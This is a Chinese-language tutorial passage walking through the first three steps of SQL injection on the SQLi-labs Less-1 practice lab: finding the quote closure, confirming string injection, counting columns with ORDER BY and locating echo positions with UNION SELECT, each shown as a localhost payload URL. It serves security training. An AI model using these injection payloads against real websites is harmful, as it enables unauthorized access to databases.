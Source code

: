
> 
<h2>一、Less1（GET-Error based - Single quotes -String）</h2>
<h3>简介：(单引号+字符型注入)</h3>
请求方式：GET
方法：错误注入

<hr/>
<h3>**第一步：注入点测试**</h3>

测试闭合符号
http://localhost:8080/sqli-labs-master/Less-1/'
在后面加上了’
发现报错了，说明带入数据库中处理了，且闭合符合为'
可能存在注入点
（使用可能闭合的符号进行测试）


验证注入点
输入ID序号为1的进行查询
（一般没改的化就是ID为关键字）
http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=1
（第一关都还没必要考虑注释掉后面其他的符号）

回显了ID为1的用户信息
说明存在注入 

判断注入类型
闭合前面单引号，注释掉后面引号
通过and连接1=1    和   1=2来判断是否为字符型注入
http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=1' and 1=1--+
（正确回显，因为1=1确实对的，但是还不能下结论）

 http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=1' and 1=2--+
（1=2是错误，且无回显，是1=2注入到数据库影响的）
所有存在字符型注入


<hr/>

<h3>**第二步：查询字段数**</h3>
猜的话，使用二分法往下猜

http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=1' order by 3 --+
（3的时候正常回显，3以下就都能回显，现在应该往上猜）

 http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=1' order by 4 --+
（4的时候报错了，说明是3了）


<hr/>
<h3>**第三步：判断回显位**</h3>
使用联合查询union
将id赋值为假（eg：id=-1）
http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,2,3 --+

 报错回显2，3
说明第2，3个位置可以报错回显查询
<hr/>

